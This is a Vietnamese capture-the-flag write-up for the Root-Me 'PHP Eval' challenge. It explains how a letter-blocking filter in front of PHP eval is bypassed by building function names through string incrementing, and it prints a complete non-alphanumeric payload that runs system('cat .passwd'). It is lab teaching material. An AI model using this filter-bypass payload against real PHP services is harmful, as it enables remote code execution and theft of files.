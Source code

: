 # PHP Eval

**Tên challenge:**  Non-alphanumeric PHP Code

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval)

**Tác giả challenge:** chmod

**Mục tiêu challenge:** Find a vulnerability in this service and exploit it. The flag is in .passwd file.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, Website có giao diện khá đơn giản, chỉ có 1 tính năng Input duy nhất:

![alt text](./images/image.png)

Ngoài ra, ta còn được cung cấp Source Code như sau:
```
<html>
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>
```


Dựa vào Source Code, ta có thể xác định ngay lổ hổng nằm ở đoạn:
```
eval('print '.$_POST['input'].";");
```
<u>**Giải thích:**</u>
* Hàm `eval` trong PHP là một hàm đặc biệt cho phép thực thi mã PHP được truyền dưới dạng chuỗi.

**VD:**
```
$code = 'echo "Hello, World!";';
eval($code);  // Kết quả: Hello, World!
```

Thông thường đến đây, ta chỉ việc đưa vào input `1; system("cat .passwd")` thì đoạn code `eval` trong Source sẽ có dạng:
```
eval(" print 1; system("cat .passwd"); ")
```

Tuy nhiên, ta đã bị filter từ `[ a -> z ]` và `[ A -> Z ]` do đoạn `preg_match` sau xử lý:
```
if(!preg_match('/[a-zA-Z`]/', $_POST['input']))
```
=> Ta không thể inject input payload trên.

Vậy thì ta phải làm sao để thực thi được Command và đọc file `.passwd` nếu không thể nhập được chữ cái ?

<u>**Trả lời:**</u>
* Sau khi đọc và tìm hiểu thì tôi tìm ra tài liệu có thể giúp Bypass được điều này: [Link](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)
* Cụ thể, ta sẽ sử dụng những ký tự như `$`, `_`, `;`, `.`,... thay cho các chữ cái.
* **VD:** Trong PHP, ta có: `$a = 'Z'` thì khi ta `$a++` => `$a` sẽ trở thành `AA` thay vì là `[` như trong ngôn ngữ C.
* Tương tự nếu: `$a = 'A'` thì khi ta `$a++` => `$a` sẽ thành `B`. Nó chỉ trở thành `AA` khi mà nó mang giá trị `Z` cuối cùng trong bảng chữ cái, khi đó nếu mình tăng tiến `++` 1 giá trị của nó lên thì nó sẽ trở thành `AA`, nếu tiếp tục `++` thì thành `AB`, cứ vậy nối tiếp.

Ví dụ cụ thể hơn ta có 1 đoạn code như sau:
```
<?php

$_=[];

$_=@"$_"; // $_='Array';

$_=$_['!'=='@']; // $_=$_[0];

$___=$_; // A

$__=$_;

$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;

$___.=$__; // AS


?>
```
<u>**Giải thích chi tiết:**</u>
* `$_=[]`: Dòng này dùng để khai báo biến `$_` có giá trị mảng `[]`
* `$_=@"$_"`: Dòng này dùng để biến giá trị mảng `[]` thành chữ `Array`, nghĩa là biến `$_` lúc bấy giờ sẽ có giá trị string là `Array` ( `$_ = "Array"` )
* `$_=$_['!'=='@']`: Dòng này để gán biến `$_` thành giá trị đầu tiên `A` trong chuỗi string `Array`. Nó giống như đoạn code sau đây
```
$mot = "Abc";
$mot = $mot[0]; // $mot = "A";
```
* Thì `['!'=='@']` trong đoạn code trên là so sánh `XOR`, vì 2 thằng khác nhau nên giá trị sẽ trả về 0. Thực ra thì ta cũng có thể để thẳng là `[0]` luôn.
* `$___=$_`: Vì bấy giờ biến `$_` đã mang giá trị `A` nên mình khởi tạo 1 biến mới `$___` để tiếp nhận giá trị của `$_`, nghĩa là lúc này cả 2 biến `$_` và `$___` đều mang giá trị `A`.
* `$__=$_`: Giống như trên, ta khởi tạo 1 biến mới `$__` và gán cho nó giá trị `A` của biến `$_`.
* `$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;`: Đoạn code này là lấy giá trị của biến vừa khởi tạo ở trên rồi tịnh tiến `++` nó 18 lần. Nghĩa là giá trị `A` lúc này được `++` 18 lần là thành `S` => `$__` = `S`
* `$___.=$__`: Đoạn code này là nối đoạn, nó giống với `$a += $b // $a = $a + $b`. Thay vì `+` thì chỗ này nối đoạn là dấu `.` thôi. `$___` mang giá trị `A`, nối đoạn với giá trị `S` của `$__` => `$___` lúc bấy giờ sẽ mang giá trị là `AS`

=> Chỉ cần nắm được phần giải thích trên là ta có thể tự tạo riêng payload của mình.

**B2:** Thử payload `1;SYSTEM(STRTOLOWER("CAT .PASSWD")))`
```
1;$_=[];
$_=@"$_"; 
$_=$_['!'=='@']; ;
$___=$_; 
$__ = $_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$___=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__; 
$__ = $_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__; 
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__;
$__=$_;

$_____ = '';
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;

$____='';
++$__;++$__;
$____.=$__;
$__=$_;
$____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$____.=$__;
$__=$_;

$______='.';
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$__=$_;
$______.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$______.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$__=$_;
++$__;++$__;++$__;
$______.=$__;
$__=$_;
$__________ = $____." ".$______ ;
$___($_____("$__________"))
```
Có thể input trực tiếp qua Website hoặc là dùng Burp-suite rồi URL encode để đảm bảo không xảy ra lỗi.

![alt text](./images/image-1.png)

=> Ta đã thành công đọc được file `.passwd`

**Lưu ý:** `1` không nằm trong file `.passwd` nhé. `1` là giá trị `1;` mà `eval()` đã print ra.

